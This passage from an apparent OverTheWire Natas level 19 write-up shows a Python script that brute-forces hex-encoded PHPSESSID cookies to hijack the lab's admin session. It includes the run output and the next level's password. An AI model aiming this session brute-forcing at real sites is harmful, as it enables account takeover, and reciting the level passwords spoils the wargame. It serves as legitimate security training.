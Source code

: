 Okay, before we continue - let's consider that the code has changed to allow the __isValidAdminLogin__ function to work. Let's assume that "admin" will return __true__, keep the hexadecimal PHPSESSID __2d61646d696e__ as is, and enumerate everything before __2d__. We will thus try to enumerate __640__ numbers, since that's what the codes __$maxid__ was set to. And when we enumerate it, we will add __-admin__ to the end, and encode it to hex. So let's write a python script for that.

```python
#!/usr/bin/python

import requests

target = 'http://natas19:4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs@natas19.natas.labs.overthewire.org/'
trueStr = 'You are an admin.'


for x in range(1,641):
	if x % 10 == 0:
		print str(x) + ' Sessions Tested'
	cookies = dict(PHPSESSID=(str(x)+'-admin').encode('hex'))
	r = requests.get(target, cookies=cookies)
	if r.content.find(trueStr) != -1:
		print 'Got it!'
		print "Admin session is "+ str(x)
		print r.content
		break
```

Once done, let's go ahead and run the script!

```console
root@kali:~# ./brute.py
10 Sessions Tested
20 Sessions Tested
30 Sessions Tested
40 Sessions Tested
50 Sessions Tested
60 Sessions Tested
70 Sessions Tested
80 Sessions Tested
90 Sessions Tested
100 Sessions Tested
---snip---
550 Sessions Tested
560 Sessions Tested
570 Sessions Tested
580 Sessions Tested
590 Sessions Tested
Got it!
Admin session is 595
---snip---
This page uses mostly the same code as the previous level, but session IDs are no longer sequential...
</b>
</p>
You are an admin. The credentials for the next level are:<br><pre>Username: natas20
Password: eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF</pre></div>
</body>
</html>
```
